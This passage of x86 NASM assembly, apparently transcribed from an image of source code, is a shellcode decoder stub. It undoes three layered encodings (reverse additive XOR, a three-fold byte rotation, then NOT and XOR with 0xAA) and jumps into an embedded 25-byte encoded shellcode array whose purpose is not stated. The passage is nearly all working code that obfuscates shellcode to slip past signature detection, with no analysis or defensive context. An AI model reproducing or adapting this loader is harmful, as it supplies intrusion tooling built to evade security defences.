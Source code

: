 ```nasm

;################################################################################################
	
			; Reverse Additive XOR
			
			mov cl, l_sc - 1		; clears cl and init with loop counter

			mov bl, byte [esi] 		; move first byte of shellcode to ebx

			decoder:
				mov al, byte [esi + 1]	; save a copy of byte [esi + 1] in al, used in next xor operation
				xor byte [esi + 1], bl	; xor byte [esi + 1] with encoded byte in bl
				mov bl, al		; [esi +1] is decoded now, for next stage we require encoded value which is saved in al
				inc esi
				loop decoder

			mov esi, edi			;restore pointer to shellcode in esi
;################################################################################################

			; Rotate left 3 times
			
			mov cl, 0x3			; rotate left 3 times
			shift:	
				push esi			; save pointer to shellcode on stack for later use
				mov bl, byte [esi]		; save byte [esi] in bl

				mov dl, l_sc-1		; shift_loop runs len(shellcode) - 1 times
				shift_loop:

					lea edi, [esi]		; save address of [esi] in edi
					mov al, byte [esi +1]	; move byte [esi + 1] to al
					mov byte [edi], al	; move byte in al to [esi]
					inc esi			; increment esi
					dec dl			; decrement shift_loop counter
					jnz shift_loop
				mov byte [esi], bl		; the first element is saved in the last
				pop esi				; move shellcode address to esi
				loop shift 	

;################################################################################################
			
			; Apply XOR and NOT on each byte

			mov cl, l_sc			; move length of shellcode to ecx
			
			decode_loop:
				not byte [esi]			; Apply NOT operation 
				xor byte [esi], 0xAA		; XOR with 0xAA
				inc esi
				
				loop decode_loop

				jmp short shellcode		; Decoding is complete, jump to the shellcode


		get_shellcode_addr:
			call shellcode_addr
			shellcode: db 0x5e,0xc6,0x13,0x77,0xe2,0xe7,0xda,0xa0,0xda,0xfc,0xc1,0xfc,0x86,0xb1,0x8d,0xb6,0x6a,0xdc,0xd9,0x05,0xb2,0xb4,0x68,0xdc,0x39
			l_sc equ $-shellcode
```